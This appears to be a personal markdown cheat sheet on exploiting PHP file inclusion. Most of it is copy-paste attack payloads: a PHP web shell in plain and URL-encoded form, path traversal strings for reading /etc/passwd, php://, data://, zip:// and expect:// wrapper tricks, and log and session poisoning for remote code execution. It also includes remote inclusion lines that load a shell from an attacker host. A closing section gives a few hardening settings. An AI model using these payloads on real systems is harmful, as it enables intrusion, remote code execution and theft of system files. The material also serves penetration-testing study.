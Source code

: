 # basics of file inclusion

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

php web shell

```
<?php system($_GET['yz']); ?>
%3C%3Fphp%20system%28%24%5FGET%5B%22yz%22%5D%29%3B%3F%3E

echo '<pre><?php system($_GET["yz"]);?></pre>' > shell.php
%0Aecho%20%27%3Cpre%3E%3C%3Fphp%20system%28%24%5FGET%5B%22yz%22%5D%29%3B%3F%3E%3C%2Fpre%3E%27%20%3E%20shell%2Ephp
```

world readable files

```
/etc/passwd
C:\Windows\boot.ini
```

copy/paste these

```
../../../../../../../../etc/passwd
/../../../../../../../../etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
/....//....//....//....//....//....//....//....//etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd

php://filter/read=/resource=../../../../../../../../etc/passwd
php://filter/read=convert.base64-encode/resource=../../../../../../../../etc/passwd
php://filter/read=string.rot13/resource=../../../../../../../../etc/passwd

expect://id
```

more advanced copy/paste

```
echo '<?php system($_GET['yz']); ?>' | base64
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW3l6XSk7ID8+Cg==&yz=id

curl -s -X POST --data "<?php system('id'); ?>" "http://<TARGET>/index.php?language=php://input"

echo '<?php system($_GET['yz']); ?>' > yz.php
zip yz.zip yz.php
# upload
zip://yz.zip%23yz.php&yz=id
```

PHP versions before 5.5 are vulnerable to null byte injection to bypass file extensions

```
language=../../../../../../../../etc/passwd%00
```


# RCE through poisoning log files

```
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
/proc/self/environ # on older servers

<?php system($_GET['cmd']); ?> # use as an user-agent
```

# RCE through php session files

```
/var/lib/php/sessions/sess_<PHPSESSID>
C:\Windows\Temp\sess_<PHPSESSID>
```

```
index.php?language=<?php system($_GET['cmd']); ?>
index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>&cmd=id
```

# remote file inclusion

```
index.php?language=http://<LHOST>/yz.php&yz=id
index.php?language=ftp://<USER>:<PASS>@<LHOST>/yz.php&yz=id
```

# patching/hardening

```php
$lfi = "....././/..../..//filename";
while( substr_count($lfi, '../', 0)) {
 $lfi = str_replace('../', '', $lfi);
};
```

```php
basename($_GET['language'])
```

```
# php.ini
open_basedir = /var/www
display_errors = Off
allow_url_fopen = Off
allow_url_include = Off
disable_functions = system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source
```
